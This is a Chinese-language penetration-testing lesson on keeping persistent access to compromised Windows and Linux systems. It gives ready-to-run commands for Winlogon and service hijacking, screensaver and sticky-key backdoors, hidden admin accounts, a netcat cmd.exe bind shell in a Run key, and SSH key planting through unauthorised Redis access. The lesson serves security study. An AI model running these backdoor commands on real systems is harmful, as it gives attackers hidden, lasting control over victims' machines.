



# 课程 P1：权限维持的多种方法 🛡️


在本课程中，我们将学习在渗透测试后渗透阶段，如何通过各种技术手段在目标系统上实现权限维持。权限维持的目的是确保攻击者能够长期、隐蔽地控制目标系统，即使管理员修复了初始漏洞或重启了系统。我们将重点介绍在Windows系统上常用的几种权限维持方法，并补充一些相关的知识点。

## 用户登录初始化后门 🔑

上一节我们概述了权限维持的重要性，本节中我们来看看如何通过修改用户登录时的初始化设置来植入后门。

这种方法通过修改操作系统关键进程（如`winlogon`）在用户登录时执行的脚本来实现。具体操作是修改注册表中`winlogon`对应的值，以加载我们想要执行的恶意程序。

**操作步骤：**
1.  需要获取高权限账户（如管理员权限）。
2.  修改注册表路径 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon` 下的 `Shell` 或 `Userinit` 键值。
3.  将键值指向恶意程序（如木马）的路径。
4.  用户下次登录时，系统会同时执行正常的登录程序和恶意程序。

**示例（通过PowerShell修改注册表）：**
```powershell
powershell -exec bypass -c "Set-ItemProperty 'HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon' -Name 'Shell' -Value 'explorer.exe, C:\Windows\System32\calc.exe'"
```
此命令将登录Shell修改为同时启动`explorer.exe`和`calc.exe`（此处以计算器为例，实际应为恶意程序）。

## 快捷方式启动后门 🔗

了解了通过登录初始化植入后门后，我们来看另一种利用系统快捷方式实现持久化的方法。

攻击者可以创建恶意进程的快捷方式并将其放入启动文件夹，或者修改现有合法快捷方式的目标路径，使其在启动原程序的同时执行恶意代码。

**以下是两种主要方式：**
*   **创建恶意快捷方式**：在启动目录（如 `C:\Users\<用户名>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup`）中创建指向恶意程序的快捷方式。
*   **劫持现有快捷方式**：修改如浏览器、压缩软件等常用程序的快捷方式属性，在其目标路径后添加执行恶意程序的命令。

**示例（使用SharPersist工具创建快捷方式后门）：**
```cmd
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Internet Explorer.lnk" -m add
```
此命令使用SharPersist工具在启动文件夹中创建一个名为“Internet Explorer.lnk”的快捷方式，实际执行`cmd /c calc.exe`命令。

## 利用现有服务维持权限 ⚙️

快捷方式后门相对容易被用户发现，本节我们探讨更隐蔽的方法：利用和修改系统服务。

攻击者可以修改系统服务的二进制路径、映像路径或失败后的恢复操作，将服务指向恶意程序，从而在服务启动或出错时获得权限。

**以下是三种利用服务的方法：**

1.  **修改服务二进制路径（B路径）**：使用`sc config`命令修改指定服务的`binPath`属性。
    ```cmd
    sc config "Fax" binPath= "C:\Windows\System32\malware.exe"
    ```
    此命令将传真服务的执行文件路径改为恶意程序。

2.  **映像路径劫持**：修改注册表中服务的`ImagePath`值，通常位于 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\<服务名>`。
    ```cmd
    reg add "HKLM\SYSTEM\CurrentControlSet\Services\W32Time" /v ImagePath /t REG_EXPAND_SZ /d "C:\Windows\System32\malware.exe" /f
    ```

3.  **利用服务失败恢复操作**：修改服务的失败恢复设置，使其在服务失败时执行恶意命令。
    ```cmd
    sc failure "W32Time" actions= restart/60000/restart/60000/run/60000 command= "C:\Windows\System32\malware.exe"
    ```

## 屏幕保护程序后门 🖥️

除了系统服务，一些不常被注意的系统功能也可以被利用，例如屏幕保护程序。

屏幕保护程序文件（.scr）本质是可执行文件。通过修改注册表，可以将屏幕保护程序设置为恶意程序，并在系统空闲达到设定时间后触发执行。

**操作步骤：**
1.  将恶意程序后缀改为`.scr`并上传至目标系统。
2.  修改注册表键值 `HKEY_CURRENT_USER\Control Panel\Desktop` 下的 `SCRNSAVE.EXE`，将其路径指向恶意程序。
3.  确保 `ScreenSaveActive` 值为 `1`（启用屏保），并设置 `ScreenSaveTimeOut` 为期望的触发时间（秒）。

**示例（通过reg命令修改）：**
```cmd
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "C:\Windows\System32\malware.scr" /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /t REG_SZ /d 60 /f
```

## 粘滞键后门与影子账户 🎭

本节介绍两种经典的、利用系统辅助功能和账户管理特性的权限维持方法。

**粘滞键后门**：Windows辅助功能中的粘滞键（连续按5次Shift触发）会调用 `C:\Windows\System32\sethc.exe`。攻击者可以用 `cmd.exe` 的副本替换此文件，从而在登录界面获取SYSTEM权限的命令行窗口。
```cmd
copy C:\Windows\System32\cmd.exe C:\Windows\System32\sethc.exe /Y
```

**影子账户**：创建一个隐藏的管理员账户，使其在“控制面板”和`net user`命令中不可见，但可用于远程登录。
1.  创建一个普通账户（如`test$`）。
2.  将其加入管理员组。
3.  在注册表 `HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users` 下，找到管理员账户（如Administrator）和test$账户对应的键（如`000001F4`和`000003F0`）。
4.  将管理员账户键中的`F`值复制，覆盖test$账户键中的`F`值。
5.  删除test$账户。此时，使用test$的凭据登录，实际使用的是管理员权限，但账户列表中不显示test$。

## CLR劫持与NC后门 🐚




最后，我们来看两种通过环境变量和网络工具实现的权限维持方法。

**CLR劫持**：通过修改注册表，劫持.NET公共语言运行时（CLR）的加载过程，使其在.NET程序执行时加载恶意DLL。
*   注册表路径：`HKEY_CURRENT_USER\SOFTWARE\Microsoft\.NETFramework` 或 `HKEY_LOCAL_MACHINE`...
*   设置键值：`v4.0.30319`（版本号）下的 `SchUseStrongCrypto` 和 `SystemDefaultTlsVersions` 可能被利用，更常见的是通过环境变量或配置文件。一种方法是设置环境变量 `COR_ENABLE_PROFILING=1` 和 `COR_PROFILER={恶意DLL的CLSID}`，使所有.NET进程加载该DLL。


**NC（Netcat）后门**：将Netcat工具上传至目标系统，并设置为监听模式，绑定到某个端口，等待攻击者连接。
```cmd
nc -lvp 4444 -e cmd.exe
```
为了使后门持久化，可以将此命令写入注册表启动项、计划任务或服务中。
```cmd
# 写入注册表启动项示例
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v NCBackdoor /t REG_SZ /d "C:\nc.exe -lvp 4444 -e cmd.exe" /f
```

## 补充知识点：Redis未授权访问的利用 🔴

在Linux环境下，Redis数据库的未授权访问漏洞也常被用于权限维持。

**常见利用方式：**
*   **写入SSH公钥**：如果目标服务器开放SSH服务且允许密钥登录，可将攻击者公钥写入`~/.ssh/authorized_keys`文件。
    ```bash
    redis-cli -h target_ip
    config set dir /root/.ssh/
    config set dbfilename authorized_keys
    set x "\n\nssh-rsa AAAAB3NzaC1yc2E...（你的公钥）\n\n"
    save
    ```
*   **写入Webshell**：如果知道Web目录路径，可写入一句话木马。
*   **写入计划任务（Crontab）**：通过写入`/var/spool/cron/`或`/etc/cron.d/`目录下的文件实现反弹Shell。
*   **主从复制利用**：在无法直接写文件时，可以设置恶意Redis服务器为主节点，让目标Redis作为从节点同步数据，从而加载恶意模块（如`.so`扩展模块）执行命令。

## 总结 📝

在本课程中，我们一起学习了多种在Windows和Linux系统上实现权限维持的技术。
*   在Windows端，我们探讨了通过**用户登录初始化**、**快捷方式**、**系统服务**、**屏幕保护程序**、**粘滞键**、**影子账户**、**CLR劫持**以及**NC后门**等方法实现持久化控制。
*   在补充知识中，我们了解了如何利用**Redis未授权访问**漏洞进行权限维持，包括写公钥、写Webshell、写计划任务和主从复制RCE等方法。



权限维持是后渗透阶段的关键环节，目的是隐蔽地长期控制目标。每种方法都有其适用场景和可能被检测的风险，在实际应用中需要根据目标环境灵活选择和组合使用，并注意清理痕迹。希望本课程的内容能为你的安全学习和研究打下基础。